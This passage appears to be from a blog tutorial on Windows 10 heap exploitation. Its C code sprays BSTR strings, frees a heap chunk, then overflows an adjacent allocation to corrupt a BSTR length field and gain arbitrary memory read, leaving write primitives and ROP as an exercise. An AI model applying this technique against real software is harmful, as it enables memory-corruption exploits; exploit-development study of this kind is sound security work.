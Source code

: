 ```
	i = 0;
	//Rapid7 size A's didn't work , you must allocate bigger than old one
	//it might the latest update of windows 10 , get some changes in the heap functionality 
	bstr = SysAllocString(L"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
	bStrings[i] = bstr;
	printf("[%d] BSTR string : 0x%08x\n", i, bstr);
	printf("BSTR allocate\n");
```



Free the 4 idx and this will let the unused sized in the previous chunk merge to the current chunk size

```
	printf("Freeing allocation at index 4 : 0x%08x\n", allocations[4]);
	HeapFree(hDefaultHeap, HEAP_NO_SERIALIZE, allocations[4]);


```



Here where we are corrupt the object in order to get arbitrary memory read.

```
	UINT strSize = SysStringByteLen(bStrings[0]);
	printf("Original String size: %d\n", (int)strSize);
	printf("Overflowing allocation 2\n");

	printf("Press return to continue\n");
	cin.ignore();
	memset(allocations[2], 'C', 0x400+0x8);
	memcpy((char*)allocations[2] +  0x400+0x8, "\xff\xff", 3);
	strSize = SysStringByteLen(bStrings[0]);
	printf("Modified String size: %d\n", (int)strSize);
	
```





<img src="{{ site.url }}{{ site.baseurl }}/assets/images/heap_f.PNG" alt="">



as you can see , we can read memory address , also it possible to get more length to reach more address in the current process. I left the rest of the work such as **arbitrary write and ROP..etc**   to the reader to challenge its self  





## Code
